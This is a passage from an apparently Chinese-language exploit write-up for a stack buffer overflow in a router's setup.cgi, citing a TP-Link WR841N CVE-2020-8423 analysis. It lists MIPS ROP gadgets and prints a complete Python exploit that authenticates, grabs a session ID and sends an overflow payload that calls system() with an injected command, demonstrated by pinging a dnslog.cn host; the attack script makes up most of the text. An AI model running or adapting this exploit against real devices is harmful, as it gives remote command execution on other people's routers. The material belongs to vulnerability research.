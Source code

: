 后来还是用原来的(，将command  
写到 $a0-0x60  
上，跳到0x55567650  
执行就行了。  
```
0x55592ce4: addiu $a0, $a0, -0x60; lw $ra, 0x1c($sp); move $v0, $zero; jr $ra; addiu $sp, $sp, 0x20; 0x55567650: la $t9, system; nop; jalr $t9; nop;
```  
  
如果你也比较懒的的话，可以用cyclic -l  
来找偏移。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWWWqeQHb60A1LG88JrongeZ2HibE3Z6A7PibrOQnRo4BEibDp8JiacW5IX2p4Jiah9AmHvicNWSymvib6wbA/640?wx_fmt=png&from=appmsg "")  
  
调试时发现$a0  
的值会随长度变化而变化，所以得填充一下，调试时用的长度500，这里也pad到500，如果想执行更长的命令，可以增加一下payload长度。  
### 最终exp  
```
import requests,reimport base64url = "http://192.168.1.1/"user = "aaaa"pwd = "xxxx!"command = '/bin/ping xxx.dnslog.cn -c 4'command = command.replace(" ", "${IFS}")auth =  "Basic " + base64.b64encode((user + ":" + pwd).encode()).decode("utf-8")def login():    get_sessionid = requests.get(url)    sessionid = get_sessionid.headers["Set-Cookie"]    headers = {        "Authorization" : auth,        "Cookie" : sessionid    }    r = requests.get(url,headers = headers)    if r.status_code == 200:        print("[+] Login success!")        return sessionid    else:        print("[-] Login failed!")        exit(0)def get_sid(sessionid):    headers = {        "Authorization" : auth,        "Cookie" : sessionid    }    get_sid = requests.get(url + "fw_rules.htm",headers = headers)    sid = re.findall(r'\?id=[a-f0-9]+', get_sid.content.decode("utf-8"))    return sid[0]def attack(sessionid):    attackurl = url + "setup.cgi" +  get_sid(sessionid)       payload = "a" * 376    payload += "%e4%2c%59%55"# ra = 0x55592ce4: addiu $a0, $a0, -0x60; lw $ra, 0x1c($sp); move $v0, $zero; jr $ra; addiu $sp, $sp, 0x20;     payload += "b" * 0x1c    payload += "%50%76%56%55"# ra = 0x55567650: la $t9, system; nop; jalr $t9; nop;    payload += "c" * 8    payload += "%0a{}%0a".format(command)    pad = 500 - (len(payload) - 4)      if(pad >= 0):        payload += "c" * pad # pad len to 500        print("[+] Attack start")        print(attackurl,payload)        data = "save=Apply&service_list=" + payload + "&fwout_action=0&fwout_laniptype=anyip&fwout_waniptype=anyip&fwout_logging=1&h_fwout_action=0&h_fwout_laniptype=anyip&h_fwout_waniptype=anyip&h_fwout_logging=1&h_service_list=AIM&c4_lan_start_ip=192.168.1.NaN&c4_lan_finish_ip=192.168.1.NaN&c4_wan_start_ip=&c4_wan_finish_ip=&h_ruleSelect=0&edit=0&todo=save&this_file=rule_out.htm&next_file=BKS_service_add.htm&SID="        headers = {            "Cookie" : sessionid,            "Authorization" : auth        }           r = requests.post(url = attackurl,data = data,headers = headers)        if r.status_code:            print("[+] Attack success!, the result is:")            print(r.content)        else:            print("[-] Attack failed!")            exit(0)sessionid = login()attack(sessionid)
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWWWqeQHb60A1LG88JrongeZcPoSM8K5zTv5mKGtEl1j6UNH4r4gUwRdKR3E4xyLJHE1BWCGBjqkug/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWWWqeQHb60A1LG88JrongeZ36BmQicqpu3fncvHYU5D6oqWstbLMmiaojtdhsatKYokXkgndicBPqsqA/640?wx_fmt=png&from=appmsg "")  
#   
# ref  
  
TP-Link WR841N 栈溢出漏洞（CVE-2020-8423）分析 - Lonely Blog (wuhao13.xin)  
  
